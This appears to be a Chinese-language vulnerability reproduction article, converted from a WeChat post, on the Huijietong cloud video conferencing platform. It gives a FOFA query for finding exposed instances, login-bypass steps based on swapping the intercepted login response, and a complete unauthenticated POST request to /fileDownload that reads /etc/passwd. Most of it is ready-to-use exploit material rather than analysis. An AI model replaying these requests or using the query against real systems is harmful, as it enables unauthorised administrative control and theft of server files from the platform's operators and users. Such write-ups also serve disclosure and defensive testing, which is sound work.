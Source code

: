 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/aiNQmDaLgaEh9B-8lsyFPA)

**1、描述**

  

会捷通云视讯平台存在登录绕过漏洞，可通过修改返回包绕过后台登录，还可进行任意操作删除，重启、升级、重置等等

会捷通云视讯平台存在任意文件读取漏洞。

**2、影响范围**

  

会捷通云视讯平台

  

  

  

  

  

**3、漏洞复现**

  

```
fofa:body="/him/api/rest/v1.0/node/role
```

  

  

  

  

一、登录绕过漏洞

**替换登录返回包内容即可绕过登录验证。**

| 

**HTTP/1.1 200** 

**Date: Thu, 25 Mar 2021 13:53:45 GMT**

**Accept-Ranges: bytes**

**Server: Restlet-Framework/2.1.1**

**Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept**

**Content-Type: application/json;charset=UTF-8**

**Connection: close**

**Content-Length: 28**

**{"token":null,"result":null}**

 |

**1.** **拦截数据包**

![](https://mmbiz.qpic.cn/mmbiz_jpg/nMQkaGYuOibBnq3AGPlaRcRJeEzPfAlh6SqURtmHLXURBybjs8jy3whdrX2DnRTSxsUv64ffTeUP69icnsxncE4Q/640?wx_fmt=jpeg)

**输入任意用户 / 密码，如 admin/admin**  

**2. 点击登录，拦截返回包，替换为如下内容**

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibBnq3AGPlaRcRJeEzPfAlh6ZwV9v6GlLUfwlQuWrib1CrObS7bxiauwiaOlUBeecE2px0VddfRr67wZw/640?wx_fmt=png)

**正常返回包：提示密码错误：**  

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibBnq3AGPlaRcRJeEzPfAlh6mZPX5D7PL9qjkAtA6yTviaMmT0sTb2yhib6rkqulPU4I1htonl13nmGw/640?wx_fmt=png)

**替换：**  

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibBnq3AGPlaRcRJeEzPfAlh6br5j2hh2M331J97EeiaoN6kxvGxWv9D8KcvkgLnmnKGiaFNicOzfCjsSA/640?wx_fmt=png)

**放开拦截，可任意操作，删除，重启、升级、重置等等**

| 

**HTTP/1.1 200** 

**Date: Thu, 25 Mar 2021 13:53:45 GMT**

**Accept-Ranges: bytes**

**Server: Restlet-Framework/2.1.1**

**Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept**

**Content-Type: application/json;charset=UTF-8**

**Connection: close**

**Content-Length: 28**

**{"token":null,"result":null}**

 |

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibBnq3AGPlaRcRJeEzPfAlh6wWELQSnsdsUJf1KxPHyRgfAyvzlE6xnKDyndkic3icRZT6nh0m9vAeHA/640?wx_fmt=png)   

公众号

二、任意文件读取漏洞  

**无需登录、可未授权读取服务器所有文件**

通过访问漏洞 url：  

```
/fileDownload?action=downloadBackupFile
```

再通过载体 “fullPath=” 即可进行任意文件读取

| 

POST /fileDownload?action=downloadBackupFile HTTP/1.1  

Host: x.x.x.x

Content-Length: 20

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Accept: */*

Origin: http://x.x.x.x

Referer: http://x.x.x.x

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5

Connection: close

fullPath=/etc/passwd

 |

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibBnq3AGPlaRcRJeEzPfAlh6rk9wPZ1NvsTug7ibFqOYHx8ia7bQlqOKPuU4OFOXLc9zIcPYjunQaV8g/640?wx_fmt=png)
